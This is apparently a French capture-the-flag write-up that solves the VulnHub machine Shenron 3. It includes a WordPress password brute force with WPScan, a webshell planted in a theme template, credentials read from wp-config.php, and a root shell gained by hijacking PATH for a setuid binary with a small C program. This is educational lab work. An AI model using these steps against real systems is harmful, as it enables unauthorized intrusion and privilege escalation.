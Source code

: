 # Solution du CTF Shenron 3 de VulnHub

Dernier épisode (à ce jour) de la série, [shenron: 3](https://vulnhub.com/entry/shenron-3,682/) est un CTF téléchargeable sur VulnHub.

```
Nmap scan report for 192.168.56.62
Host is up (0.00026s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: shenron-3 | Just another WordPress site
|_http-generator: WordPress 4.6
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Une énumération à l'aide de `WPscan` sur le Wordpress ne ressort aucune information intéressante.

## Le bon, la brute et le webshell

Une énumération web ne trouvant aucun fichier particulier, je me décide de bruteforcer le compte admin du Wordpress :

```bash
$ docker run -v /tools/wordlists:/wordlists --add-host shenron:192.168.56.62 -it --rm wpscanteam/wpscan --url http://shenron/ -U admin -P /wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

--- snip ---

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / iloverockyou                                                                                                                                                                                  
Trying admin / ilovephil Time: 00:04:51 <                                                                                                                               > (31535 / 14375925)  0.21%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: iloverockyou
```

Ca a pris un bon paquet de minutes mais ce fut utile :)

Une fois connecté sur l'interface du Wordpress je vais dans *Appeareance > Editor* puis j'édite le template pour les erreurs 404.

Je rajoute mon code dedans, il ne reste plus qu'à demander un article de blog invalide avec ma commande en paramètre:

`http://shenron/index.php/2048?cmd=id` qui retourne `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Une fois récupéré mon shell je commence par récupérer les identifiants de BDD dans `wp-config.php` :

```php
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'Wordpress@123');
```

Il n'y a qu'un seul utilisateur dans la table `wp_users` et comme on connait le mot de passe, ça n'a aucune utilité.

Après avoir fouillé rapidement je ne remarque rien de particulier sur le système.

Je tente le mot de passe `iloverockyou` pour l'utilisateur `shenron` et bingo, ça fonctionne !

## A l'ancienne

Il y a deux fichiers notables dans le dossier personnel de l'utilisateur :

```
-rwx------ 1 shenron shenron    33 Apr 16  2021 local.txt
-rwsr-xr-x 1 root    root    16712 Apr 15  2021 network
```

Le premier est bien sûr le flag (`a57e2ff676cd040d58b375f686c7cedc`)  et l'autre est un binaire setuid root qui semble appeller `netstat` (extraits choisis du hexdump) :

```
00000400  00 00 00 00 00 00 00 00  00 73 65 74 75 69 64 00  |.........setuid.|
00000410  73 79 73 74 65 6d 00 5f  5f 63 78 61 5f 66 69 6e  |system.__cxa_fin|
00000420  61 6c 69 7a 65 00 73 65  74 67 69 64 00 5f 5f 6c  |alize.setgid.__l|
00000430  69 62 63 5f 73 74 61 72  74 5f 6d 61 69 6e 00 6c  |ibc_start_main.l|
00000440  69 62 63 2e 73 6f 2e 36  00 47 4c 49 42 43 5f 32  |ibc.so.6.GLIBC_2|
00000450  2e 32 2e 35 00 5f 49 54  4d 5f 64 65 72 65 67 69  |.2.5._ITM_deregi|
00000460  73 74 65 72 54 4d 43 6c  6f 6e 65 54 61 62 6c 65  |sterTMCloneTable|
00000470  00 5f 5f 67 6d 6f 6e 5f  73 74 61 72 74 5f 5f 00  |.__gmon_start__.|
00000480  5f 49 54 4d 5f 72 65 67  69 73 74 65 72 54 4d 43  |_ITM_registerTMC|
00000490  6c 6f 6e 65 54 61 62 6c  65 00 00 00 00 00 02 00  |loneTable.......|

00002000  01 00 02 00 6e 65 74 73  74 61 74 20 2d 6e 6c 74  |....netstat -nlt|
00002010  75 70 00 00 01 1b 03 3b  38 00 00 00 06 00 00 00  |up.....;8.......|
```

On est sur une faille classique de PATH relatif. La problématique c'est que `netstat` est appelé avec des options spécifiques donc si on fait appeller `bash` à la place de `netstat`, `bash` quittera en indiquant qu'une option est invalide.

On doit donc écrire notre propre code qui nous donnera un shell sans tenir compte des options :

```c
#include <unistd.h>
#include <stdlib.h>

int main(char *argv[]) {
  setreuid(0, 0);
  setregid(0, 0);
  system("/bin/dash -p");
  return 0;
}
```

Je le compile en static depuis ma machine car `gcc` n'est pas sur la VM puis je le dépose dans `/tmp`.

```bash
shenron@shenron:~$ cp /tmp/gotroot netstat
shenron@shenron:~$ export PATH=.:$PATH
shenron@shenron:~$ ./network
# id
uid=0(root) gid=0(root) groups=0(root),1000(shenron)
# cd /root
# ls
root.txt
# cat root.txt
                                                               
  mmmm  #                                                 mmmm 
 #"   " # mm    mmm   m mm    m mm   mmm   m mm          "   "#
 "#mmm  #"  #  #"  #  #"  #   #"  " #" "#  #"  #           mmm"
     "# #   #  #""""  #   #   #     #   #  #   #   """       "#
 "mmm#" #   #  "#mm"  #   #   #     "#m#"  #   #         "mmm#"
                                                               
Your Root Flag Is Here :- a7ed78963dffd9450a34fcc4a0eecb98

Keep Supporting Me. ;-)
```

*Publié le 18 novembre 2022*
